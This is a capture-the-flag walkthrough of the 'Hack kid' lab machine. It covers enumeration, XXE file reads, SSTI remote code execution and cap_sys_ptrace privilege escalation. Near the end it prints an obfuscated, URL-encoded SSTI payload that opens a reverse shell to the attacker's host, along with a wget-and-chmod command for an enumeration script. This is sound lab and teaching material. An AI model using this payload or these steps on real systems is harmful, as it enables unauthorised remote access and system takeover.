

# Hack kid 1.0.1 |


Scan network to discover the pentest box.
Using Nmap or netdiscovery:



Here the pentest box’s IP is : 10.10.10.1
We use Nmap to scan port & service:

> nmap -sV 10.10.10.1
> 

Port 80 and 9999 open a web server


Map IP to local DNS by editing hosts file: vim /etc/hosts


 Review source web on port 80:


Hint for using Get parameter “page_no”.


 


I use Burpsuit to Bruteforce the id then we got something at 21(I've change to use Wfuzz instead next time):


Map IP to local DNS hackers.blackhat.local by editing file hosts again.


Using Dirsearch to find hidden directory but nothing is useful.


The text is Uppercase Dig so I think it is a hint. I’ve to use dig tool to check all DNS records.


Got a new URL.


Let's trying to find something useful here.
I open this URL on Burpsuit and trying to check if it has XXE vulns


 

Yeah, we got something here.


Let's try to read some common files such as .bash_history,.bashrc.


We got a username and password on .bashrc.

> username="saket"
password="Saket!#$%@!!"
> 

Use this info to login to web server on port 9999


I’ve found out that this server has SSTI therefore I was tried to RCE it.


Yeah!?Now we’ve RCE it. Let go for PrivilegeEsc

Use [lse.sh](http://lse.sh/) to check over the system. I’ve to use cap_sys_ptrace vuln to Privilege.


use cap_sys-ptrace vuln to Privilege

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)


Inject payload →  get root and enjoy the winning moment :<

RevShell payload:
```
%7b%25%20%69%6d%70%6f%72%74%20%6f%73%20%25%7d%7b%7b%6f%73%2e%73%79%73%74%65%6d%28%27%62%61%73%68%20%2d%63%20%22%30%3c%26%31%39%36%3b%65%78%65%63%20%31%39%36%3c%3e%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%30%2e%34%2f%31%32%33%34%3b%20%73%68%20%3c%26%31%39%36%20%3e%26%31%39%36%20%32%3e%26%31%39%36%22%27%29%7d%7d
```
[https://github.com/carlospolop/PEASS-ng/releases/download/20220202/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/download/20220202/linpeas.sh)

wget "[https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh)" -O [lse.sh](http://lse.sh/);chmod 700 [lse.sh](http://lse.sh/)

cap_sys-ptrace : [https://pastebin.com/raw/5uT7vGPP](https://pastebin.com/raw/5uT7vGPP)

Wfuzz: 

- -w wordlist
- -u url
- -hh x: find which is not x
- -c colorful

PS: Lần sau sẽ dùng wfuzz để bruteforce thay vì dùng burpsuite.
